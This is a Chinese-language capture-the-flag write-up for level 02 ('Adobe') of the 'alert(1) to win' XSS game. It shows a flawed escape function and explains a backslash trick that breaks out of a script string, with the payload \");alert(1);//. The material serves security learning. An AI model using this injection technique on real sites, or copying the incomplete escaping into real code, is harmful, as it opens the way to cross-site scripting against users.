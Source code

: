 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 02 - Adobe](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/05/30/pid-3868/)]

------

## 题目

```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

------

## 解题报告

由于所有 `"` 都被转义为 `\"` ，导致无法直接闭合函数。

但是不能直接闭合，不等于无法闭合。

因为只是转义了双引号 `"` ，没有转义反斜杠 `\` ，那么我们只需要再输入一个反斜杠去吃掉转义双引号的反斜杠，那么双引号就得以保留，并用来闭合函数了。

于是可以构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
\");alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2002%20-%20Adobe/imgs/01.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
